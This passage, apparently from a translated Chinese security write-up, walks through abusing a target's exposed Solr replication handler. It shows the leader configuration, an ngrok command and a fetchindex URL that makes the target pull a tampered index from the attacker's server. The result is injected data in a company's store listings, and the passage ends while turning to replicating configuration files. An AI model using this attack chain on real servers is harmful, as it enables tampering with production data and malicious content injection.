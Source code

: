 ![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IBhcktL1VsYxCttTiazUg1dqVuhpCZsG35DUZt82MFBC82aD4E46sdGfg/640?wx_fmt=png&from=appmsg "")  
  
此时，我拥有了目标服务器数据集的副本，并添加了一个新的 1337-elite-hacker 条目。现在，我需要检查是否真的可以将这个数据集分发到目标服务器，或者这一切是否只是一个死胡同。  
## 复制到目标服务器  
  
为了将我的本地服务器配置为复制领导者（leader）而不是跟随者（follower），我需要修改之前添加到核心配置文件中的复制请求处理器的配置：  
```
<requestHandler name="/replication" class="solr.ReplicationHandler">
    <lst name="leader">
        <str name="replicateAfter">optimize</str>
        <str name="backupAfter">optimize</str>
    </lst>
</requestHandler>
```  
  
随后，我重启了服务器以使更改生效，并使用 ngrok 将本地 leader 服务器暴露到互联网：  
  
$ ngrok http 9000  
  
为了验证复制 leader 是否正常工作，我首先在本地进行了测试。我创建了一个名为 "replica" 的新 core，并使用 "ngrok" 提供的 URL 将其配置为 leader 的 follower：  
```
<requestHandler name="/replication" class="solr.ReplicationHandler">
    <lst name="slave">
        <str name="leaderUrl">https://<ngrok_url>/solr/hacefresk0/</str>
        <str name="pollInterval">00:00:20</str>
    </lst>
</requestHandler>
```  
  
随后，我执行了 "fetchindex" 命令，并成功从本地 leader 服务器复制了数据集！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IBCQfYQ2oCZgica3YjibiaXia6aeTCbqp2Bl1xCRwibiax8WXn63s0CZzS8jOw/640?wx_fmt=png&from=appmsg "")  
  
现在是时候在目标服务器上执行这个操作了。我访问了以下 URL 来触发复制：  
  
https://target.com/solr/de/replication?command=fetchindex&leaderUrl=https://<ngrok_url>/solr/hacefresk0/  
  
然而...ngrok 没有收到任何连接 :/ 我多次重复这个过程并重置了所有设置，但仍然无法使其正常工作。我再次进行了与之前相同的本地测试，测试成功了，但我无法在目标服务器上执行，所以我暂时搁置了这个问题，休息了几天。  
  
然后，在玩电子游戏时，我突然想到。我不知道目标服务器使用的 Solr 版本，也许本地服务器和目标服务器之间的版本差异阻止了复制。  
  
我重新开始工作，并尝试在目标服务器上触发一些错误，看看是否能泄露 Solr 版本，直到我找到了它！它使用的是 8.11 版本（我不记得具体是如何触发错误的，因为我只记录了版本号，但可能是复制请求处理器中的某些内容）。我立即从 Solr 官网 下载了 Solr 8.11 的二进制版本，并开始重建相同的测试环境。  
  
当一切准备就绪后，我在目标服务器上使用 "fetchindex" 命令触发了复制...它成功了！当我查询自定义的 1337 条目时，它已经在那里供所有人查看了：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IBibjPbiaSdFIScWIeibpJNcUP0poTYaKsUWGjLyy9uyWnjONDRwDb6svAQ/640?wx_fmt=png&from=appmsg "")  
  
我成功地修改了该公司每个欧洲商店的数据，这意味着我可以篡改它们，插入恶意链接等等！然而，既然我能够将数据分发到目标 Solr 服务器，我想知道我还能做些什么。  
## 修改目标服务器配置  
  
早些时候，在阅读 Solr 关于创建复制 leader 的文档 时，我瞥见了复制请求处理器配置中 "leader" 元素的一个可能参数：  
```
confFiles

    Optional | Default: none

    The configuration files to replicate to the follower, separated by a comma. These should be files such as the schema, stopwords, and similar configuration files that may change on the leader and need to be updated on the follower to use when serving queries.

    [...]
```  
  